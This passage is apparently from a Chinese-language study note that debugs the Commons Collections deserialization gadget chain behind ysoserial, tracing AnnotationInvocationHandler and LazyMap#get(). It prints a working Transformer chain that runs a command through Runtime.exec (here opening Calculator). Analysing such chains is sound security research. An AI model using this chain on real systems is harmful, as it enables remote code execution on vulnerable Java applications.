

在`AnnotationInvocationHandler#invoke()`方法中的这行打个断点，因为此处`this.memberValues`触发了`get()`方法，那么就会触发所代理的`LazyMap#get()`



可以跟进看看，确实跳转到了`LazyMap#get()`。这里当`key`不在这个 Map 对象中，则会调用`transform()`，从而完成触发恶意代码



## 其它
发现 ysoserial 中的`Transformer[]`数组最后增加了一个`ConstantTransformer(1)`，目的是为了清除报错信息

```java
final Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer(
        "getMethod",
        new Class[] { String.class, Class[].class },
        new Object[] { "getRuntime", new Class[0] }
    ),
    new InvokerTransformer(
        "invoke",
        new Class[] { Object.class, Object[].class },
        new Object[] { null, new Object[0] }
    ),
    new InvokerTransformer(
        "exec",
        new Class[] { String.class },
        new String[] { "open -a Calculator" }
    ),
    new ConstantTransformer(1)
};

Transformer transformerChain = new ChainedTransformer(transformers);

```
